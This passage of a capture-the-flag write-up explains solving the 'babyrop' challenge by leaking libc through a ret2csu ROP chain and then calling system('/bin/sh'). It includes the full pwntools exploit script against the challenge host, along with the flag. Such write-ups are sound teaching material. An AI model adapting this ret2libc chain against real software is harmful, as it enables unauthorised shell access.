Now with control of `rdi`, `rsi`, `rdx`, and a libc leak, we can determine the right version of libc to use using a tool like [libc.blukat.me](https://libc.blukate.me/), and download it to find the system address.

From there it is a standard ret2libc.

Many people ran into an error with stack alignment. My advice is: if you ever crash on remote and are completely sure that system is getting called with `[rdi] == "/bin/sh"`, just toss a few `ret`s into the final ropchain between the calls.

Script:
```py
from pwn import *

e = ELF("./babyrop")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = e
context.terminal = ["konsole", "-e"]

context.log_level="debug"


p = remote("dicec.tf", 31924)


poprdi = 0x00000000004011d3
csu1 = 0x00000000004011b0
csu2 = 0x00000000004011ca
ret = 0x000000000040101a

points_to_init = 0x4000f8


p.sendlineafter(":", "A"*72 + p64(poprdi) + p64(1) + p64(csu2) + p64(0) + p64(1)*2 + p64(e.got["write"]) + p64(8) + p64(points_to_init) + p64(csu1) + "AAAAAAAA"*7 + p64(e.plt["write"]) + p64(e.sym["main"]))



p.recv(1)

libc.address = u64(p.recv(8).ljust(8, "\x00")) - libc.sym["write"]

print("libc base", hex(libc.address))


p.sendlineafter(":", "A"*72 + p64(ret) + p64(poprdi) + p64(next(libc.search("/bin/sh"))) + p64(ret) + p64(libc.sym["system"]))


p.interactive()
```

Flag: `dice{so_let's_just_pretend_rop_between_you_and_me_was_never_meant_b1b585695bdd0bcf2d144b4b}`

